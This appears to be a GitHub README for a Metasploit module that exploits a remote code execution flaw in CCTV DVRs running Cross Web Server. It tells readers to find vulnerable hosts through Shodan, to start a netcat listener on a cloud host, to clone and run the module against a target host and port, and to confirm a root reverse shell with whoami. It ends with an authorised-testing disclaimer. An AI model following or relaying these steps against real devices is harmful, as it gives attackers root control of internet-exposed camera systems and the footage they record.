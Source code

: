 # CCTV-Remote-Code-Execution-Metasploit-Module
# CCTV-Remote-Code-Execution-Metasploit-Module

This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP with metasploit and netcat installed

Step 1:

On this cloud host type

nc -l 666

on the same host open another window and 



Step 1:

cd /usr/share/metasploit-framework/modules/exploits/linux/http

Step 2:

git clone https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module.git


Step 3:

bash runner.sh -h targethost -p targetport

Step 4:

go back to your netcat listener or web-facing ip netcat session and type in:

whoami

to get the answer 

root

if the exploit executed succesfully
